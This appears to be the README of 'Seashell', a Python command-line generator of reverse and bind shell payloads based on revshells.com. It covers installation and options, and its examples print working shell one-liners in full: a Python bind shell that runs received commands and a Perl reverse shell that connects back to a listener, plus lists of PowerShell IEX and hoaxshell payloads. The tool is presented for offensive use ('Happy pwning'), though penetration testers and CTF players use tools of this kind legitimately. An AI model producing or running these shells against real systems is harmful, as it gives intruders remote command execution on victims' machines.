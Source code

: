 # Seashell
Seashell is a python tool for generating shells on the go!
It uses the database of [revshells.com](https://revshells.com) and offers the same functionality. Only difference being, it's in your terminal!

[seashell PoC demo](https://github.com/lil-skelly/seashell/assets/80885284/65ed8213-6e54-4a22-b1ad-4bac9afc706c)

# Credits
I want to thank [@0dayCTF](https://github.com/0dayCTF) and all the contributors of [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) for making this project possible.

# Installation
Seashell does not use **ANY** external libraries so you can install it in seconds :D
```bash
$ git clone https://github.com/lil-skelly/seashell
[ ]
$ cd seashell && python3 -m pip install .
```

- Added substitute_payload to configure payload, repaced -S with -T (type) and added custom shell support (-S).
- Updated README.md 
# Usage
```bash
usage: python3 -m seashell [-h] [--verbose] [-os {windows,mac,linux}] [-ip IP] [-p PORT]
                           [--type {reverse,bind,msfvenom,hoaxshell,listeners}]
                           [--shell {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}]
                           [-P PAYLOAD] [--interactive] [--output OUTPUT]
                           [term]

Seashell is a CLI 'reverse' shell generator utility. Happy hacking!

positional arguments:
  term                  Search term to filter payloads (use list to list payloads).

options:
  -h, --help            show this help message and exit
  --verbose, -V         Sets logging level to [DEBUG]
  -os {windows,mac,linux}, -o {windows,mac,linux}
                        Filters results for [given] operating system
  -ip IP                Target IP
  -p PORT, --port PORT  Target port
  --type {reverse,bind,msfvenom,hoaxshell,listeners}, -T {reverse,bind,msfvenom,hoaxshell,listeners}
                        Filters results for [given] payload type
  --shell {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}, -S {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}
                        Shell to use
  -P PAYLOAD, --payload PAYLOAD
                        metasploit payload to use for listener [msfconsole]
  --interactive, -i     Enables interactive mode. Any arguments besides -V will be ignored!
  --output OUTPUT, -O OUTPUT
                        Store payload in a file
```

Seashell filters your results based on the shell type and OS specified. 

Use `list` as the search `term` on both manual and interactive mode to get a list of all the payloads available, matching the specified OS/Shell type.

If you do not find your desired payloads, it might be because the payload you are looking for is not available for *linux* systems (the default OS used by seashell). ~ Example 3

After finding the ID of the payload you desire to use, you can:
- Repeat the command and use the ID as the search `term` if in manual mode
- Type `use ID` if in interactive mode

Seashell will then select the appropriate payload.

- Now you can also list listeners to host your payload. Same way as you would list reverse shell payloads etc.

**NEW**
If you want to store the generated shell in a file, you can use the `--output/-O` argument in both modes.

### Special arguments
- You can specify a *shell* to use (i.e `/bin/bash` or `zsh`) with the `-S/--shell <SHELL>` command line argument.
- You can specify a metasploit payload to use in certain payloads with the `-P <PAYLOAD>` argument.

## Examples:

- Example 1 (manual mode)
```bash
$ python -m seashell -ip localhost -p 1234 -T bind python
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Python3 Bind         70
[*] PHP Bind             71

$ python -m seashell -ip localhost -p 1234 -T bind 70
[*] Welcome to the sea of shells! Happy pwning >:)
[+] Using <Python3 Bind>
python3 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
- Example 2 (interactive mode):
```bash
$ python -m seashell -i
[+] Welcome to the sea of shells! Happy pwning >:)
~> Enter the IP: localhost
~> Specify the port (default: 4444): 
~> Filter by OS [LINUX, mac, windows]: 
~> Select payload type [REVERSE, bind, msfvenom, hoaxshell]:  
[SEARCH] perl
[*] Perl                 20
[*] Perl no sh           21
[*] curl                 13
[*] telnet               60
[SEARCH] use 21
[+] Using <Perl no sh>
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Example 3 (payload listing in manual mode)
```bash
$ python -m seashell -ip localhost -os windows -T hoaxshell list
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Windows CMD cURL     94
[*] PowerShell IEX       95
[*] PowerShell IEX Constr Lang Mode 96
[*] PowerShell Outfile   97
[*] PowerShell Outfile Constr Lang Mode 98
[*] Windows CMD cURL https 99
[*] PowerShell IEX https 100
[*] PowerShell Constr Lang Mode IEX https 101
[*] PowerShell Outfile https 102
[*] PowerShell Outfile Constr Lang Mode https 103
```
